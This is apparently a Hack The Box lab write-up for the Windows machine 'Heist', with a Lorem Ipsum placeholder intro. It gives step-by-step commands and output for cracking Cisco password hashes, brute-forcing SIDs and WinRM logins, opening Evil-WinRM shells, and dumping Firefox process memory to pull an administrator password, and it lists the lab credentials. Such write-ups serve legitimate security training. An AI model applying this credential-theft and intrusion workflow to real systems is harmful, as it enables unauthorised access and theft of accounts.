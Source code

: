 ```yaml
---
layout: single
title: Heist - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-09-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-heist/heist_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-heist/heist_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

NOTE: Working credentials found during enumeration
  rout3r / $uperP@ssword
  admin / Q4)sJu\Y8qz*A3?d
  hazard / stealth1agent
  Chase / Q4)sJu\Y8qz*A3?d
  Administrator / 4dD!5}x/re8]FBuZ

1. nmap -Pn -p- -O 10.10.10.149
    80/tcp    open  http
    135/tcp   open  msrpc
    445/tcp   open  microsoft-ds
    5985/tcp  open  wsman
    49669/tcp open  unknown
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

2. Enum port 80, login as Guest User and you'll see user Hazard post an attached file containing 2 usernames and 3 password.
    enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
    username rout3r password 7 0242114B0E143F015F5D1E161713
    username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

3. Crack all (3) the hashes.
    Password 7 types can easily be cracked using:
    http://www.ifm.net.nz/cookbooks/passwordcracker.html
    Which gives us following two creds
      rout3r / $uperP@ssword      (0242114B0E143F015F5D1E161713)
      admin / Q4)sJu\Y8qz*A3?d    (02375012182C1A1D751618034F36415408)

    Password 5 is a md5crypt and can be cracked using hashcat and rockyou.txt.
    To find the correct Hash Mode (-m 500) see https://hashcat.net/wiki/doku.php?id=example_hashes
      root@p3:/opt/htb/machines/heist# echo "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" > cisco-hash.txt
      root@p3:/opt/htb/machines/heist# hashcat -a 0 -m 500 cisco-hash.txt /usr/share/wordlists/rockyou.txt -o cisco-cracked.txt --force
      root@p3:/opt/htb/machines/heist# cat cisco-cracked.txt
        $1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent

    Possible Usernames:
      root@p3:/opt/htb/machines/heist# cat heist-users.txt
        admin
        rout3r
        hazard

    Possible Passwords:
      root@p3:/opt/htb/machines/heist# cat heist-pws.txt
        $uperP@ssword
        Q4)sJu\Y8qz*A3?d
        stealth1agent


4. Enumerate / Brute Windows SID through MSRPC with lookupsid.py from Impacket, using found credentials.
    root@p3:/opt/impacket/examples# ./lookupsid.py hazard:stealth1agent@10.10.10.149
      Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

      [*] Brute forcing SIDs at 10.10.10.149
      [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
      [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
      500: SUPPORTDESK\Administrator (SidTypeUser)
      501: SUPPORTDESK\Guest (SidTypeUser)
      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
      513: SUPPORTDESK\None (SidTypeGroup)
      1008: SUPPORTDESK\Hazard (SidTypeUser)
      1009: SUPPORTDESK\support (SidTypeUser)
      1012: SUPPORTDESK\Chase (SidTypeUser)
      1013: SUPPORTDESK\Jason (SidTypeUser)

5. Extend user-list with all new users, and run user/pass through msf auxiliary(scanner/winrm/winrm_login)
    root@p3:/opt/htb/machines/heist# cat heist-users.txt
      admin
      rout3r
      hazard
      Administrator
      Guest
      DefaultAccount
      WDAGUtilityAccount
      support
      Chase
      Jason

    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

6. Download Winrm Shell or Evil-Winrm and login with user Chase
    https://github.com/Hackplayers/evil-winrm     (More manageable user interface; easy upload and download of files)
    https://alionder.net/winrm-shell/             (Lightweight shell script, would not use for root)

    root@p3:/opt/shells# ruby winrm_shell.rb
    PS > whoami
      supportdesk\chase
    PS > pwd

      Path
      ----
      C:\Users\Chase\Documents


    PS > cd ../Desktop
    PS > type user.txt
      a12*****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Enumerate and find an odd running process.
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d' -s '/opt/PowerSploit/Exfiltration/'
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id

      ProcessName           Id
      -----------           --
      ..
      explorer            5620
      firefox              704
      firefox             1296
      firefox             3056
      firefox             3504
      firefox             3832
      fontdrvhost          800
      ..

2. Firefox is an odd service to be running on a HTB box, dump the process memory and see if we can grab anything useful.

    Process dump via ProcDump.exe:
    (https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
    New-Item -Path "C:\Users\Chase\Documents" -Type directory -Force
    cmd.exe /c "C:\Users\Chase\Documents\procdump.exe" -ma 704 -accepteula "C:\Users\Chase\Documents"

    Process dump via PowerSploit tool Out-Minidump:
    (https://github.com/PowerShellMafia/PowerSploit)

    *Evil-WinRM* PS C:\Users\Chase\Documents> upload ../PowerSploit/Exfiltration/Out-Minidump.ps1 C:\Users\Chase\Documents
    *Evil-WinRM* PS C:\Users\Chase\Documents> Import-Module C:\Users\Chase\Documents\Out-Minidump.ps1
    *Evil-WinRM* PS C:\Users\Chase\Documents> Get-Process firefox | Out-Minidump
      Directory: C:\Users\Chase\Documents

      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----        10/2/2019   1:29 PM      524489927 firefox_704.dmp
      -a----        10/2/2019   1:29 PM      273600541 firefox_1296.dmp
      -a----        10/2/2019   1:29 PM      302068992 firefox_3056.dmp
      -a----        10/2/2019   1:29 PM      286191273 firefox_3504.dmp
      -a----        10/2/2019   1:29 PM      385076763 firefox_3832.dmp

3. Search the .dmp-file for credentials.
    Remotely on victim machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> Select-String -Path firefox_1296.dmp -Pattern login_password
      localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login

    Locally on attacking machine:
    *Evil-WinRM* PS C:\Users\Chase\Documents> download firefox_1296.dmp
      Info: Downloading firefox_1296.dmp to firefox_1296.dmp
      Info: Download successful!
    root@p3:/opt/evil-winrm# strings firefox_1296.dmp | grep login_password
      MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

4. Enter the newfound password in your password list and enumerate wimrm using mfs module auxiliary/scanner/winrm/winrm_login
    msf5 auxiliary(scanner/winrm/winrm_login) > run
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Administrator:4dD!5}x/re8]FBuZ
      [+] 10.10.10.149:5985 - Login Successful: WORKSTATION\Chase:Q4)sJu\Y8qz*A3?d

5. Login with new Administrator creds and get root.txt
    root@p3:/opt/evil-winrm# ruby evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

      Info: Starting Evil-WinRM shell v1.7
      Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
      supportdesk\administrator
    *Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
      50d****************************
